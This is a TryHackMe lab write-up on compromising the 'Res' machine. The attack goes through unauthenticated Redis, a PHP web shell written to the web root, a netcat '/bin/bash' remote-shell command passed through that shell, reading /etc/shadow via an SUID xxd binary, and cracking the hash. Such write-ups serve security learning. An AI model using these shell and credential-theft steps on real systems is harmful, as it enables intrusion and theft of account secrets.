

# Res - Tryhackme Writeup

**Res is a vulnerable machine on TryHackMe. Through this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is very insecure and should not be exposed over network. Redis does not have access control implementation and also it does not support encryption.**

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

**Nmap scan to find out the open ports and services**

```nmap -sV  -sC -p- 10.10.131.41```


**From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.**

## Vulnerability Identification

**1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code



Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.


Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.**

## Exploitation

**To access Redis on 10.10.131.41, I installed redis-tools on my kali machine**

```sudo apt-get install redis-tools```


**I try to connect to a Redis server without a password and I was successfully connected to Redis server.**


**Running the “INFO” command listed out the redis version, operating system, architecture, and more.**


**Writing a php script and saving it to the web directory**


**Shell writing is complete, executing it on the target machine**


**Make a netcat connection to the attacker IP**

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```


## Post-Exploitation

### Privilage Escalation

**SUID bit is set for xxd**


**Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I learnt that xxd may be used to do privileged reads or disclose files outside a restricted file system. Using this capabilities, I gained read access of /etc/shadow file.**


**Local user password hash from /etc/shadow file was found**


**Using john the ripper, I cracked the local user password.**


**Once I logged in as the user, I found that the user had full sudo privileges. Using this privilege, I was able to switch user as root and gain root access**

Root access


